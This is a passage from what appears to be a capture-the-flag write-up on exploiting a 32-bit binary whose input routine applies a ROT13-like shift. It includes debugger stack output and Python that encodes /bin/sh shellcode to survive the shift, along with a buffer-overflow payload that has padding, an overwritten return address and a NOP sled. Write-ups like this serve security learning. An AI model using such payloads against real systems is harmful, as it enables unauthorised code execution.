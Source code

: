 ```text
   0x804879a:   xchg   ax,ax
   0x804879c:   xchg   ax,ax
   0x804879e:   xchg   ax,ax
   0x80487a0 <__libc_csu_init>: push   ebp
[------------------------------------stack-------------------------------------]
0000| 0xbffff27c --> 0x804a07a ('P' <repeats 36 times>, "\n")
0004| 0xbffff280 ('P' <repeats 200 times>...)
0008| 0xbffff284 ('P' <repeats 200 times>...)
0012| 0xbffff288 ('P' <repeats 200 times>...)
0016| 0xbffff28c ('P' <repeats 200 times>...)
0020| 0xbffff290 ('P' <repeats 200 times>...)
0024| 0xbffff294 ('P' <repeats 200 times>...)
0028| 0xbffff298 ('P' <repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
```

Notice that it's returning to 0x804a07a instead of 0x804a060, which is what we originally wanted. This because our encoded address "\x6d\xad\x11\x15" contains 0x6d which is the letter "m". Therefore the rotinput function treats it as a letter and adds 13 to it instead of subtracting 13. No matter, we still fall in the vicinity of our payload. 

Now we need to encode our shellcode. Adding 13 to each byte should suffice:

```python
#!/usr/bin/env python 

sc = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
enc_sc = ""

for i in sc:
    c = int(ord(i))
    c += 13
    enc_sc += chr(c)
```

Now there's one problem here. Note that the 3rd byte in the shellcode is 0xf7. Add 13 to that and you get 0x104 which falls out of the range of ascii chars and will cause chr() to throw an exception. To get around this, we'll replace it with 0x4 since 0x4-0xd = 0xfffffff7, and the binary will only look at the least significant byte; 0xf7. So now we have:

```python
#!/usr/bin/env python 

sc = "\x31\xc9\x04\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
enc_sc = ""

for i in sc:
    c = int(ord(i))
    c += 13
    enc_sc += chr(c)

buf = ""
buf += "A"*254 + "\n"                          # write enough bytes to fill the buffer
buf += "\x0d"                                  # null terminate the string to fool strlen()
buf += "B"*12                                  # padding to overwrite saved return pointer
buf += "\x6d\xad\x11\x15" + "\n"               # location of our NOP sled and shellcode
buf += "\x9d"*30 + enc_sc + "C"*250 + "\n"     # NOP sled and shellcode
```
